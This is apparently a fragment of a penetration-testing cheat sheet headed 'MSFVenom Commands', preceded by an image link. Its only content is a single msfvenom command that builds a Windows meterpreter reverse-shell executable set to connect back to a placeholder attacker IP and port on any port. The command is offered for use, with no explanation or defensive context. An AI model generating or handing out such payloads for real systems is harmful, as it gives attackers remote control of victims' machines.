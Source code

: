 # 🔺 MSFVenom

## MSFVenom Commands

```
# Payload for all ports
msfvenom -p windows/meterpreter/reverse_tcp_allports LHOST=<attacker ip> LPORT=<attacker port> -a x86 -f exe > allports.exe
```
